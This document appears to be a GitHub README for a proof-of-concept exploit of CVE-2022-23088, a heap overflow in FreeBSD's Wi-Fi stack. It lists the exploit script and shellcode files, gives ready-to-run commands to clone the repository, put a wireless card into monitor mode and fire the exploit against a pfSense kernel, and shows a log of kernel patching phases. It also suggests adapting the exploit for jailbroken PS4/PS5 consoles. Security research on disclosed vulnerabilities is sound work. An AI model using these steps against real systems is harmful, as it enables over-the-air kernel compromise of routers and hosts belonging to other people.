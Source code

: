 ### CVE-2022-23088 - FreeBSD Wi-Fi Stack Heap Overflow Exploit 

##  Proof-of-Concept (PoC) for exploiting a heap overflow in the FreeBSD Wi-Fi stack 


----------------------------

## 📌 Overview

CVE-2022-23088 is a heap overflow vulnerability in the Wi-Fi stack of FreeBSD, which can be exploited by sending specially crafted Wi-Fi frames.

- ✅ Work on FreeBSD 13.0=<
- ✅ Can be modified for PS4/PS5 with jailbreak ??

----------------------------

## 📂 Files Included

exploit.py → The main exploit script

shellcode.bin → Shellcode to be injected into memory

x86.py → Helper functions for calculating memory addresses


-----------------------------

## 🛠️ Requirements

- Wi-Fi card that supports Monitor Mode
- Linux environment (for running the exploit)
- Python dependencies (pip)
```
pip install pyelftools
```

-----------------------------
## Usage :

1️⃣ Running the Exploit on linux :

First, ensure you have a Wi-Fi card that supports Monitor Mode.


wifi0 → Your Wi-Fi network interface (check with ifconfig)

# 1
```
git clone https://github.com/Dark-life944/PoC-PS5-PS4.git && cd PoC-PS5-PS4 && cd CVE-2022-23088
```
# 2
```
sudo ifconfig wifi0 down && sudo iwconfig wifi0 mode monitor && sudo ifconfig wifi0 up
```
# 3 
```
./build.py kernels/pfSense-2.5.2-RELEASE
```
# 4
```
sudo ./exploit.py wifi0 kernels/pfSense-2.5.2-RELEASE
```
# log of the exploit :
- [+] Phase 1: writing page1
- [+] Phase 2: writing L3
- [+] Phase 3: patching kernel
- [+] Phase 4: repairing
- [+] Finished
